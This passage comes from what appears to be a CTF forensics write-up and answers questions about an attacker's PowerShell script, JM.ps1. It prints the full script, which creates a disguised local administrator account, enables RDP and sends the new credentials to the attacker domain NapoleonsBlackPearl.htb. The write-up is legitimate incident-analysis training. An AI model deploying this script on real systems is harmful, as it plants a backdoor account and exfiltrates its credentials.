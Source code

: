 ![image]({{ site.url }}/assets/holmesctf25/enduringecho/7.png)

#### Question 8: What domain name did the attacker use for credential exfiltration? 

We can find `JM.ps1` on machine, extracted it and we have can figure out what this file do

![image]({{ site.url }}/assets/holmesctf25/enduringecho/8.png)

```powershell
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

We see that this code create a account on **Administrators** and **Remote Desktop Users** group. After that, send this creds to the attacker's domain `NapoleonsBlackPearl.htb`

#### Question 9: What password did the attacker's script generate for the newly created user?

This code generate the password by merge 2 part: String `Watson_` and value of `$timestamp` which getting date at that time and make it to format `yyyyMMddHHmmss`. We can determine the time by looking the time of creating user `svc_netupd` (4720)

![image]({{ site.url }}/assets/holmesctf25/enduringecho/9.png)
